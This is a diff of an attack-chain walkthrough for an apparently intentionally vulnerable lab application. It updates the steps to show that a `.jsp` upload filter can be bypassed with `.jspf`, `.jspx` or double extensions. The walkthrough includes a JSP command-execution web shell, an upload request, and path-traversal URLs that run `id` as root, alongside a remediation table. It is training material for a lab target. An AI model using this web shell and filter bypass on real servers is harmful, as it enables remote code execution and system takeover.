

Before and after one commit to Ethanz12/Vulnerable-Application, a Markdown page: docs/ATTACK-CHAIN.md, the part around one of its changes. Shown at 96% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Fix docs to match hard-mode code changes

````diff
--- a/docs/ATTACK-CHAIN.md
+++ b/docs/ATTACK-CHAIN.md
@@ -214,15 +229,19 @@ human administrator reviewing content.
 
 Two flaws combine: (a) the signage-template uploader accepts **any**
 filename/bytes and writes into the web-accessible `uploads/templates/`
-directory — a `.jsp` file is compiled and served by Tomcat; (b) the template
-preview endpoint forwards the user-supplied path straight to
-`RequestDispatcher.forward()` with no canonicalisation or allow-listing, so
-`..` segments walk anywhere inside the context.
+directory. A hard-mode filter blocks `.jsp` extensions, but alternative
+JSP extensions such as `.jspf` or `.jspx` bypass it — Tomcat compiles and
+serves them; (b) the template preview endpoint forwards the user-supplied
+path straight to `RequestDispatcher.forward()` with no canonicalisation or
+allow-listing, so `..` segments walk anywhere inside the context.
 
-1. **Upload a JSP shell** (admin UI or API):
+1. **Upload a JSP shell** using an extension that bypasses the `.jsp`
+   filter (admin UI or API). The filter only checks
+   `lowerFilename.endsWith(".jsp")`, so `.jspf` (JSP fragment), `.jspx`,
+   or double extensions like `shell.jsp.jpg` pass through:
 
    ```bash
-   cat > /tmp/shell.jsp <<'EOF'
+   cat > /tmp/shell.jspf <<'EOF'
    <%@ page import="java.io.*" %><%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
@@ -232,7 +251,7 @@ preview endpoint forwards the user-supplied path straight to
    }%>
    EOF
    $RC request --jar /tmp/atk.jar \
-     --data "{\"filename\":\"shell.jsp\",\"content_b64\":\"$(base64 -w0 /tmp/shell.jsp)\"}" \
+     --data "{\"filename\":\"shell.jspf\",\"content_b64\":\"$(base64 -w0 /tmp/shell.jspf)\"}" \
      api/admin/templates
    ```
 
@@ -243,7 +262,7 @@ preview endpoint forwards the user-supplied path straight to
 
    ```bash
    $RC request --jar /tmp/atk.jar \
-     "admin/templates/preview?path=/uploads/../uploads/templates/shell.jsp&cmd=id"
+     "admin/templates/preview?path=/uploads/../uploads/templates/shell.jspf&cmd=id"
    # uid=0(root) gid=0(root) groups=0(root)
    ```
 
@@ -251,7 +270,7 @@ preview endpoint forwards the user-supplied path straight to
    shell also answers directly, no session at all:
 
    ```bash
-   $RC request "uploads/templates/shell.jsp?cmd=id"
+   $RC request "uploads/templates/shell.jspf?cmd=id"
    # uid=0(root) gid=0(root) groups=0(root)
    ```
 
@@ -262,10 +281,10 @@ preview endpoint forwards the user-supplied path straight to
 | Stage | Fix |
 |-------|-----|
 | Envelope | TLS + authenticated encryption with per-session keys; never ship keys to clients |
-| V1 | Random 128-bit+ activation tokens, single-use, expiring; don't publish directory data |
+| V1 | Random 128-bit+ activation tokens, single-use, expiring; don't publish directory data (rounding to the hour is not sufficient — brute-force is trivial) |
 | V2 | Resolve event + permitted role from the invitation row server-side; ignore client ids |
-| V3 | Sanitize rich text server-side on render (allow-list), CSP, drop `allowedContent:true` |
-| V4 | Extension/MIME allow-list, store outside webroot, canonicalise + validate dispatcher paths |
+| V3 | Sanitize rich text server-side on render (allow-list), CSP, drop `allowedContent:true`; blocking `<script>` alone is insufficient — event handlers like `<img onerror=>` also execute |
+| V4 | Extension/MIME allow-list (block all executable extensions, not just `.jsp`), store uploads outside webroot, canonicalise + validate dispatcher paths |
 
 ## Troubleshooting
 
@@ -277,5 +296,5 @@ preview endpoint forwards the user-supplied path straight to
   must go through `rc4cli.py` (or your own RC4 wrapper with the static key).
 - **Preview returns blank** — check `docker compose logs web`; if the
   dispatcher normalized the `..` away, the direct URL
-  `uploads/templates/shell.jsp?cmd=id` still works.
+  `uploads/templates/shell.jspf?cmd=id` still works.
 - **Start over** — `docker compose down -v && docker compose up --build -d`.
````
Also changed, not shown: other parts of docs/ATTACK-CHAIN.md (+22 -7 lines).
